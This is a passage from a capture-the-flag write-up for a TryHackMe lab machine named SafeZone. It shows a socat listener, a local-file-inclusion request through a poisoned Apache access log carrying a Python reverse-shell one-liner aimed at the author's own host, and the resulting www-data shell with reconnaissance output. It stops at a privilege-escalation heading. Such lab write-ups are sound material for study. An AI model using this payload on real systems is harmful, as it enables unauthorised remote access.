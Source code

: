 **Let's get a reverse shell!**

- Setup a listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2022/12/30 02:34:35 socat[107759] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 02:34:35 socat[107759] N listening on AF=2 0.0.0.0:443
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```bash
/detail.php?page=/var/log/apache2/access.log&cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230023733.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2022/12/30 02:34:35 socat[107759] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 02:34:35 socat[107759] N listening on AF=2 0.0.0.0:443
                                                                 2022/12/30 02:37:12 socat[107759] N accepting connection from AF=2 10.10.245.138:54914 on AF=2 10.9.0.253:443
                                                                  2022/12/30 02:37:12 socat[107759] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@safezone:/var/www/html$ 
www-data@safezone:/var/www/html$ whoami;hostname;id;ip a
www-data
safezone
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2995sec preferred_lft 2995sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
www-data@safezone:/var/www/html$ ^C
www-data@safezone:/var/www/html$ 
```

I'm user `www-data`!

## Privilege Escalation
